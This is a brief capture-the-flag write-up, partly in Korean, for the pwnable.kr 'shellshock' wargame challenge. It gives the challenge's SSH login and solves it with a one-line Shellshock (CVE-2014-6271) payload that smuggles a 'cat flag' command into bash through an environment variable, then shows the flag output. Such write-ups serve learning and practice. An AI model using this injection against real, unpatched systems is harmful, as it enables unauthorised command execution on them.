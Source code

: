 # shellshock - 1 pt

```text
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)
```

## 아무튼 답은

```c
shellshock@ubuntu:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```
